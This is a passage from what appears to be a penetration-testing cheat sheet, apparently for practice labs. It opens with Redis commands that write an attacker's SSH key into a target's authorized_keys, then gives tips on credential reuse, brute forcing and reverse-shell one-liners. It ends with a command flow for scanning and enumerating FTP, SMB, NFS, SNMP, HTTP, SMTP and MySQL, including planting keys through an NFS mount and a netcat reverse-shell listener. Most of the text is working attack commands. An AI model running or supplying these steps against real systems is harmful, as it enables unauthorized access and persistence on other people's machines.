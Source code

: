 ```bash

# Alternatively, write SSH authorized_keys (if Redis can write to user home)
mkdir -p tmp_redis && (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > tmp_redis/ak
redis-cli -h $IP CONFIG SET dir /home/targetuser/.ssh
redis-cli -h $IP CONFIG SET dbfilename authorized_keys
redis-cli -h $IP -x SET foo < tmp_redis/ak
redis-cli -h $IP SAVE
```

## Practical tips

- Always save Nmap outputs (-oA) for later reference and reporting.
- Use Nmap NSE targeted at detected services; it often finds anonymous access or defaults instantly.
- Start with read-only anonymous access; escalate to write attempts only when indicated by perms.
- Credential reuse is common: try discovered creds across SSH/FTP/SMB/DB.
- For web, basic content discovery (gobuster) and default creds on admin panels are frequent wins.
- SNMP leaks are gold: processes may include passwords in command lines.
- When writing authorized_keys, ensure correct perms: .ssh 700, authorized_keys 600.
- Reverse shell reliability: prefer standard bash or PHP one-liners; match firewall-friendly ports (443/53).
- Be gentle with bruteforce; low threads and short lists avoid lockouts and noise.

## Minimal cheat sheet (one-screen flow)

```bash
# Recon
IP=10.10.10.10; LHOST=10.10.14.14; LPORT=4444
nmap -p- -sS -n -Pn --min-rate 2000 -oA scans/alltcp $IP
PORTS=$(awk -F/ '/open/{print $1}' scans/alltcp.nmap | paste -sd,)
nmap -sCV -p"$PORTS" -oA scans/versions $IP
nmap -sU -p161 -oA scans/snmp $IP

# FTP
nmap -p21 --script ftp-anon $IP
ftp -inv $IP

# SMB
nmap -p445 --script smb-enum-shares,smb-enum-users $IP
smbclient -L //$IP/ -N
smbmap -H $IP

# NFS
showmount -e $IP
sudo mount -t nfs -o vers=3 $IP:/home mounts/nfs
# write id_rsa.pub to mounts/nfs/user/.ssh/authorized_keys

# SNMP
snmpwalk -v2c -c public $IP 1.3.6.1.2.1.1
snmpwalk -v2c -c public $IP 1.3.6.1.2.1.25.1.6.0

# HTTP
whatweb http://$IP
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
nikto -h http://$IP
nc -lvnp $LPORT  # listener

# SMTP
nmap -p25 --script smtp-commands,smtp-enum-users $IP
nc -nv $IP 25

# MySQL
nmap -p3306 --script mysql-info $IP
```